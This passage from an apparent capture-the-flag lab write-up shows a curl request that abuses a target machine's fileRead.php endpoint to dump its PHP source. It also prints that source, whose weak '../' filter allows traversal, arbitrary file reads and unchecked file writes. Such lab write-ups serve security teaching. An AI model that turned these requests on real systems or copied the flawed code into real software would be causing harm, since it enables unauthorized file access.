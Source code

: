 
#### Source

I could start to guess at bypasses for the filtering that’s going on, but
rather, I’ll grab the site source. I can pipe the curl output into `jq` with
the `-r` flag to print the string as raw, and select the `file` object (if you
don’t know [`jq`](https://stedolan.github.io/jq/), you should check it out -
it comes in handy in so many situations with json data.

So this command will grab `dirRead.php`:

    
    
    root@kali# curl -s -X POST -d "file=dirRead.php" http://10.10.10.87/fileRead.php | jq -r .file
    
    
    
    <?php
    
    if($_SERVER['REQUEST_METHOD'] === "POST"){
            if(isset($_POST['path'])){
                    header('Content-type: application/json');
                    $_POST['path'] = str_replace( array("../", "..\""), "", $_POST['path']);
                    echo json_encode(scandir("/var/www/html/" . $_POST['path']));
            }else{
                    header('Content-type: application/json');
                    echo '[false]';
            }
    }
    

`fileRead.php`:

    
    
    <?php
    
    
    if($_SERVER['REQUEST_METHOD'] === "POST"){
            $fileContent['file'] = false;
            header('Content-Type: application/json');
            if(isset($_POST['file'])){
                    header('Content-Type: application/json');
                    $_POST['file'] = str_replace( array("../", "..\""), "", $_POST['file']);
                    if(strpos($_POST['file'], "user.txt") === false){
                            $file = fopen("/var/www/html/" . $_POST['file'], "r");
                            $fileContent['file'] = fread($file,filesize($_POST['file']));
                            fclose();
                    }
            }
            echo json_encode($fileContent);
    }
    

`fileWrite.php`:

    
    
    <?php
    
    if($_SERVER['REQUEST_METHOD'] === "POST"){
            header('Content-Type: application/json');
            $condition['result'] = false;
            if(isset($_POST['listnum'])){
                    if(is_numeric($_POST['listnum'])){
                            $myFile = "/var/www/html/.list/list" . $_POST['listnum'];
                            $handle = fopen($myFile, 'w');
                            $data = $_POST['data'];
                            fwrite($handle, $data);
                            fclose();
                            $condition['result'] = true;
                    }
            }